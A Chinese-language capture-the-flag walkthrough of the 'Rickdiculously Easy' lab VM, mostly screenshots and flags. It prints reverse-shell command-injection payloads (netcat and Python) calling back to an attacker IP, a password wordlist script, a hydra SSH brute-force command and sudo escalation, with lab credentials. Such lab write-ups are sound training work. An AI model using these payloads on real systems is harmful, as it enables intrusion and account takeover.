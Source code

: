 # Rickdiculously_Easy

![image-20200716014424811](assets/Rickdiculously_Easy.assets/image-20200716014424811.png)

![image-20200716014826073](assets/Rickdiculously_Easy.assets/image-20200716014826073.png)

`FLAG:{TheyFoundMyBackDoorMorty}-10Points`

![image-20200719220716779](assets/Rickdiculously_Easy.assets/image-20200719220716779.png)

`FLAG:{TheyFoundMyBackDoorMorty}-10Points`

![image-20200719220849143](assets/Rickdiculously_Easy.assets/image-20200719220849143.png)

`FLAG{Flip the pickle Morty!} - 10 Points`



ftp可匿名登录

![image-20200716015159949](assets/Rickdiculously_Easy.assets/image-20200716015159949.png)

pub文件夹下为空

`FLAG{Whoa this is unexpected} - 10 Points`

![image-20200716021056938](assets/Rickdiculously_Easy.assets/image-20200716021056938.png)

![image-20200716021025193](assets/Rickdiculously_Easy.assets/image-20200716021025193.png)

![image-20200716021125341](assets/Rickdiculously_Easy.assets/image-20200716021125341.png)

`FLAG{Yeah d- just don't do it.} - 10 Points`

![image-20200716021233642](assets/Rickdiculously_Easy.assets/image-20200716021233642.png)

![image-20200716021313449](assets/Rickdiculously_Easy.assets/image-20200716021313449.png)

```
Password:winter
```

![image-20200716021837588](assets/Rickdiculously_Easy.assets/image-20200716021837588.png)

![image-20200716021900523](assets/Rickdiculously_Easy.assets/image-20200716021900523.png)

![image-20200716022912544](assets/Rickdiculously_Easy.assets/image-20200716022912544.png)

![image-20200716024517223](assets/Rickdiculously_Easy.assets/image-20200716024517223.png)

![image-20200716024539575](assets/Rickdiculously_Easy.assets/image-20200716024539575.png)

看来可以尝试命令注入

![image-20200716031647637](assets/Rickdiculously_Easy.assets/image-20200716031647637.png)

简单的命令注入



```bash
192.168.43.27;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.93 1337 >/tmp/f

192.168.43.27;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.43.97",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

但是尝试了一些并不能执行。而我们有一个密码，我们可以先看一下home，确认我们拥有的用户。查看不了，尝试查看passwd

cat并不能正常查看

![image-20200716034004356](assets/Rickdiculously_Easy.assets/image-20200716034004356.png)

使用less

![image-20200716034139683](assets/Rickdiculously_Easy.assets/image-20200716034139683.png)

经过尝试最终Summer能够使用这个密码进入

```bash
Summer:winter
```



```bash
ssh Summer@192.168.43.27 -p 22222
```



![image-20200716034417522](assets/Rickdiculously_Easy.assets/image-20200716034417522.png)

![image-20200716035014944](assets/Rickdiculously_Easy.assets/image-20200716035014944.png)

我们之前使用cat也是显示一只猫，所以应该是cat被替换了。仍然使用less

![image-20200716035506012](assets/Rickdiculously_Easy.assets/image-20200716035506012.png)

`FLAG{Get off the high road Summer!} - 10 Points`

![image-20200716035909914](assets/Rickdiculously_Easy.assets/image-20200716035909914.png)

![image-20200716035955111](assets/Rickdiculously_Easy.assets/image-20200716035955111.png)

![image-20200716040105779](assets/Rickdiculously_Easy.assets/image-20200716040105779.png)

密码有乱码混杂，应该是exif信息中含有密码，传回kali

```bash
scp -P 22222 Summer@192.168.43.27:/home/Morty/Safe_Password.jpg ./
```

![image-20200716040714802](assets/Rickdiculously_Easy.assets/image-20200716040714802.png)

![image-20200716041002433](assets/Rickdiculously_Easy.assets/image-20200716041002433.png)

```bash
Meeseek
```

将压缩文件传回本机

![image-20200716041251640](assets/Rickdiculously_Easy.assets/image-20200716041251640.png)

使用密码解压

![image-20200716041352957](assets/Rickdiculously_Easy.assets/image-20200716041352957.png)

![image-20200716041427512](assets/Rickdiculously_Easy.assets/image-20200716041427512.png)

`FLAG: {131333} - 20 Points`



![image-20200719222043419](assets/Rickdiculously_Easy.assets/image-20200719222043419.png)

找到一个可执行文件

![image-20200719222127896](assets/Rickdiculously_Easy.assets/image-20200719222127896.png)

![image-20200719222202969](assets/Rickdiculously_Easy.assets/image-20200719222202969.png)

不能在当前目录执行。

![image-20200719222255980](assets/Rickdiculously_Easy.assets/image-20200719222255980.png)

![image-20200719222901339](assets/Rickdiculously_Easy.assets/image-20200719222901339.png)

传回本地strings一下

![image-20200719223612858](assets/Rickdiculously_Easy.assets/image-20200719223612858.png)

%d，deCRYPT %30,后面的字段应该是`ahah ah aguments`

然后在另外的目录下发现

![image-20200719225125939](assets/Rickdiculously_Easy.assets/image-20200719225125939.png)

![image-20200716035330583](assets/Rickdiculously_Easy.assets/image-20200716035330583.png)

not a flag.那flag就有可能是参数

尝试使用flag中的内容作为参数。

![image-20200719223130857](assets/Rickdiculously_Easy.assets/image-20200719223130857.png)

`FLAG{And Awwwaaaaayyyy we Go!} - 20 Points`

提供了rick的密码的一些提示，在google上搜索了一下，相关乐队的名字是和The Flesh Curtauns

按照提示密码拥有1个大写字母，1个数字。在加上The ，或Flesh，或者Curtauns。

写一个脚本来生成一个字典

```python
from string import ascii_uppercase
for c in ascii_uppercase:
    for x in range(0, 10):
        print str(c) + str(x) + "The"
        print str(c) + str(x) + "Flesh"
        print str(c) + str(x) + "Curtains"
```



```bash
python mkpasswd.py > passwords.txt
```

再使用这个字典爆破ssh

```
hydra -s 22222 -v -l RickSanchez -P passwords.txt 192.168.43.27 ssh
```

![image-20200720020257492](assets/Rickdiculously_Easy.assets/image-20200720020257492.png)

```bash
RickSanchez:P7Curtains
```

登录ssh

![image-20200720015925102](assets/Rickdiculously_Easy.assets/image-20200720015925102.png)

sudo -l直接发现可以直接提权，sudo su 提权，查看flag

![image-20200720020216891](assets/Rickdiculously_Easy.assets/image-20200720020216891.png)

`FLAG: {Ionic Defibrillator} - 30 points`